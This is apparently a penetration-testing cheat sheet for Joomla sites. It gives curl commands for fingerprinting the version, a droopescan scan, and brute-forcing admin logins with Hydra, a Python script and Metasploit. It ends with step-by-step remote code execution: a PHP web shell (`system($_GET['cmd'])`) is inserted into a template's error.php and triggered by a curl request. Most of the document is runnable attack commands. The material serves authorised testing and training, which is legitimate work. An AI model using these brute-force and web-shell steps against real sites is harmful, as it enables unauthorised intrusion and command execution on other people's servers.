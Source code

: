 ```yaml
---
legal-banner: true
---
```


### **Introduction**

Joomla is a free and open-source content management system (CMS) used to create, manage, and publish digital content on websites. It provides a user-friendly interface and a range of features that allow users to build and maintain websites without needing to write code. Joomla is highly customizable, supporting extensions and templates to enhance functionality and design, making it a popular choice for websites of all sizes—from personal blogs to large corporate sites.

### **Identifying Joomla Version**

1.  Obtain Joomla Version from README:  
    `curl -s http://[JOOMLA-DOMAIN]/README.txt | head -n 5`
    
    ```
    Joomla! version 3.9.22
    Copyright (c) 2005 - 2020 Open Source Matters.
    All rights reserved.
    Licensed under GNU General Public License.
    ```
    
2.  Check Version in Language Configuration:  
    `curl -s http://[JOOMLA-DOMAIN]/language/en-GB/en-GB.xml`
    
    ```xml
    <metadata>
        <name>English (United Kingdom)</name>
        <version>3.9.22</version>
        <description>English (United Kingdom) Language Pack</description>
    </metadata>
    ```
    
3.  Check Version in XML Configuration Files:  
    `curl -s http://[JOOMLA-DOMAIN]/plugins/system/cache/cache.xml`
    
    ```xml
    <extension version="3.9.22" type="plugin" method="upgrade">
        <name>cache</name>
        <author>Joomla! Project</author>
        <creationDate>April 2020</creationDate>
    </extension>
    ```
    
4.  Check Version in Administrator Manifests:  
    `curl -s http://[JOOMLA-DOMAIN]/administrator/manifests/files/joomla.xml | xmllint --format -`
    
    ```xml
    <extension type="file" version="3.9.22" method="upgrade">
        <name>joomla</name>
        <author>Joomla! Project</author>
        <creationDate>September 2020</creationDate> 
        <description>Joomla! Core Files</description>
    </extension>`
    ```
    

### **Automatic Scanning**

1.  Use Droopescan for automatic scanning:  
    `droopescan scan joomla --url http://[JOOMLA-DOMAIN]/`

### **Brute Forcing Login Credentials**

1.  Using Hydra for Credential Brute-Forcing:  
    `hydra -L users.txt -P passwds.txt [JOOMLA-DOMAIN] http-get /administrator/index.php`
2.  Using [joomla-brute.py](https://github.com/ajnik/joomla-bruteforce) for Credential Brute-Forcing:  
    `sudo python3 joomla-brute.py -u http://[JOOMLA-DOMAIN] -w /usr/share/wordlist/rockyou.txt -usr admin`
3.  Using Metasploit for Credential Brute-Forcing:  
    `msf > use auxiliary/scanner/http/joomla_bruteforce_login`

### **Gain RCE by Injecting PHP Code in a Template**

1.  Navigate to Templates in Joomla Admin Panel.
2.  Select protostar from the Template list.
3.  Access the Templates: Customize page.
4.  Edit the error.php page and insert the following PHP code:  
    `system($_GET['cmd']);`
5.  Save the changes.
6.  Trigger the RCE with:  
    `curl -s http://[JOOMLA-DOMAIN]/templates/protostar/error.php?cmd=id`

